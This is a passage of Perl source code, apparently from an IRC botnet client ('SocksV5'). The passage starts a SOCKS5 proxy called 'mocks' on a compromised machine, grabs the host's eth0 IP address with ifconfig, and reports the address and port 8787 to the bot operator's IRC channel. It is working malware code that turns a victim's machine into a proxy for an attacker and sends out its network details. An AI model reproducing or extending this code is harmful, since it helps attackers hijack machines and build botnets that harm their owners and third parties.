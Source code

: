          sleep(2); 

      system './mocks start'; 

         sleep(4); 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SocksV512]12 Looks like its succesfully installed lets do the last things4   "); 

  

      #lets grab ip 

      $net = `/sbin/ifconfig | grep 'eth0'`; 

      if (length($net)) 

      { 

      $net = `/sbin/ifconfig eth0 | grep 'inet addr'`; 

      if (!length($net)) 

      { 

      $net = `/sbin/ifconfig eth0 | grep 'inet end.'`; 

      } 

         if (length($net)) 

      { 

         chop($net); 

         @netip = split/:/,$net; 

         $netip[1] =~ /(\d{1,3}).(\d{1,3}).(\d{1,3}).(\d{1,3})/; 

         $ip = $1 .".". $2 .".". $3 .".". $4; 

           

            #and print it ^^    

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SocksV512] Connect here :4 ". $ip .":8787 "); 

         } 

      else

   { 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SocksV512] IP not founded "); 

   } 

} 

else

{ 

      sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SocksV512] ERROR WHILE INSTALLING MOCKS "); 
